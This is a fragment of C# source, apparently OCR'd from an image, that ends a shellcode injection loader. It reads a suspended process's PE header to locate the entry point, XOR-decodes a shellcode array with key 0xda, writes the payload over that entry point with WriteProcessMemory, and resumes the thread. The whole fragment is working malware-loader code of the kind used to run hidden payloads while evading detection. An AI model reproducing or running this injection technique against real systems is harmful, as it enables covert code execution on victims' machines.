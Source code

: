 ```csharp
            IntPtr executableAddress = (IntPtr)BitConverter.ToInt64(addrBuf, 0);


            byte[] data = new byte[0x200];
            result = ReadProcessMemory(ProcInfo.hProcess, executableAddress, data, data.Length, out bytesRW);
            uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3c);
            uint opthdr = e_lfanew_offset + 0x28;
            uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
            IntPtr addressOfEntryPoint = (IntPtr)((Int64)executableAddress + entrypoint_rva);

            // Decode the XOR payload
            for (int i = 0; i < shellcode.Length; i++)
            {
                shellcode[i] = (byte)((uint)shellcode[i] ^ 0xda);
            }

            result = WriteProcessMemory(ProcInfo.hProcess, addressOfEntryPoint, shellcode, shellcode.Length, out bytesRW);

            uint rResult = ResumeThread(ProcInfo.hThread);
        }
    }
}
```